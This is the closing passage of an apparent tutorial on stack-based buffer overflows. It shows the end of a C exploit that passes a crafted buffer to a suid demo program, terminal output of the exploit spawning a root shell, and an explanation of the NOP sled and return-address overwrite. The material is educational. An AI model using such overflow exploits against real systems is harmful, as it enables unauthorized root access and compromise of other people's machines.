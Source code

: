 ```cpp
// End the string
  buffer[600-1] = 0;

// Now call the program ./f00 with our crafted buffer as its argument
  execl("./f00", "f00", buffer, 0);

// Free the buffer memory
  free(buffer);

  return 0;
}
```

Here are the results of the exploit code’s compilation and subsequent execution:

```bash
$ gcc -o exploit exploit.c
$ ./exploit
Stack pointer (ESP) : 0xfccd89b0
    Offset from ESP : 0x0
Desired Return Addr : 0xfccd89b0
sh-2.05a# whoami
root
sh-2.05a#
```

Apparently it worked. The return address in the stack frame was overwritten with the value 0xfccd89b0, which happens to be the address of the NOP sled and shellcode. Because the program was suid root, and the shellcode was designed to spawn a user shell, the vulnerable program executed the shellcode as the root user.

# End
That’s all for now. I hope you learned something from this, This is a big topic, and this is just a little bit of what it covers. Hopefully, you’re now familiar with the concept of stack-based overflows, shellcode and you can recognize some basic Assembly instructions.
